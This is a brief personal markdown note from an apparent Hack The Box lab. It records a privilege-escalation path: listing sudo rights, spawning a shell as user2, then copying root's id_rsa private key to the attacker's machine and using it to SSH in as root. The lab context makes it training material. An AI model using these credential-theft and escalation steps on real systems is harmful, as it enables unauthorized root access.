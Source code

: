 ```yaml
---
id: 250711-pwn-notes
aliases: []
tags: []
---
```


# User Privilege escalation 

log in into pwn-box with HTB provide log in for user1 
was able to escalate to user2 using: 

```bash 
sudo -l 
sudo -u user2 /bin/bash

```

flag.txt found /home/ dir - copy and pasted to hacking machine. 

## esciation to root 

- cd into the /root/ folder and located the id_rsa file 
- copied the if_rsa file to host machine and ran 

```bash 
chmod 600 id_rsa 
ssh root@{target.ip} -p {port} -i id_rsa
```

- flag located in home dir. 





